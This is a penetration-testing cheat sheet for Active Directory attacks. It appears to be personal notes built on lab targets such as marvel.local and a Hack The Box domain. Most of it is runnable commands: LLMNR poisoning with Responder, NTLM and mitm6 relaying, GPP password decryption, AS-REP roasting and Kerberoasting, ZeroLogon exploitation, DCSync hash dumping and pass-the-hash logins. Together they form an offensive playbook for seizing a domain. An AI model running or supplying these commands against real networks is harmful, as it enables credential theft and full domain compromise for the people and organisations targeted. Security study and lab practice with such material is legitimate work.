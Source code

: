# Active Directory

[Top Five Ways I Got Domain Admin on Your Internal Network before Lunch (2018 Edition)](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)

## LLMNR Poisoning

LLMNR is like DNS on an internal windows network
Listen for connections on wrong network drives and retrieve hashes
* https://github.com/lgandx/Responder

(Impacket toolkit required)

```
sudo responder.py -I eth0 -Pv 
```

Password cracking with hashcat (NTLMv2)

```
hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt --force
```

## Ipv6 DNS Takeover via mitm6

[GitHub - fox-it/mitm6: pwning IPv4 via IPv6](https://github.com/fox-it/mitm6)

```
mitm6 -d marvel.local
```

Setup relay attack

```
ntlmrelayx.py -6 -t ldaps://192.168.57.140 -wh fakewpad.marvel.local -l lootme
```

[The worst of both worlds: Combining NTLM Relaying and Kerberos delegation - dirkjanm.io](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)


## SMB Relay

Relay hashes we gathered and gain access to specific machines. Relayed user credentials must be admin on machine.

### Check if SMB signing is disabled. (Message signing is enabled but not required)

```
nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24

Save relevant hosts to targets.txt
```

Disable smb and http on responder.conf

https://hausec.com/how-to-set-up-ntlmrelayx-py/
```
nano /etc/responder/Responder.conf
```
Start listening for events on responder
(python2 and python3 Version)
```
sudo python responder.py -I eth0 -rdwv
sudo responder.py -I eth0 -Pv 
```

Initialize relay

```
ntlmrelayx.py -tf targets.txt -smb2support
```

Retrieve SAM hashes

## Abusing Group Policy Preferences (GPP)

Find the Groups.xml file.

```
\\DOMAIN\SYSVOL\domain\Policies\RANDOMOBJECTS\Machine\Preferences\Groups\Groups.xml
or
findstr /S /I cpassword \\domain.local\sysvol\domain.local\policies\*.xml
```
Retrieve the cpassword hash. Decrypt.

```
gpp-decrypt hash
```

Use can use the credentials with psexec.py or maybe try kerberoasting

## Kerberos (AS-REP Roasting)

Run impacket/GetNPUsers.py to get the users that don't have the require pre-authentication option

```
GetNPUsers.py -dc-ip IP -no-pass -userfile user.txt
```

Crack the hashes found

Use evil-winrm to connect to the box using the credentials found

Use ntlmrelay.py from Impacket to relay any changes made to LDAP.

```
ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user svc-alfresco
```

Authenticate by visiting http://localhost/privexchange (any directory will work, this is random). This sets the user ad Domain Admin.

### Abusing ZeroLogon

```
python3 zerologon_check.py DC IP
python3 cve-2020-1472-exploit.py DC IP
```

Use Impacket’s secretsdump.py to perform the DCSync attack, gathering all the user hashes:

```
secretsdump.py -just-dc DOMAIN/DC\$@IP

secretsdump.py htb.local/user:password@10.10.10.161 -just-dc -outputfile secrets-dump.txt
```

Login using the Administrator hash

```
evil-winrm -u Administrator -i 10.10.10.161 -H '32693b11e6aa90eb43d32c72a07ceea6'

In order to find the plain password hex and restore the password
secretsdump.py administrator@IP -hashes HASH
python3 restorepassword.py DOMAIN/DC@DC_HOSTNAME -target-ip IP -hexpass HEXPASS
```

### Kerbrute

Kerbrute is a popular enumeration tool used to brute-force and enumerate valid active-directory users by abusing the Kerberos pre-authentication.

You need to add the DNS domain name along with the machine IP to /etc/hosts inside of your attacker machine:
10.10.117.212 CONTROLLER.local

```
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

### Harvesting Tickets w/ Rubeus

On the target machine

```
Rubeus.exe harvest /interval:30

Rubeus.exe kerberoast
This will dump the Kerberos hash of any kerberoastable users
```

### Dumping KRBASREP5 Hashes w/ Rubeus

```
Rubeus.exe asreproast
```

Crack the resulting hashes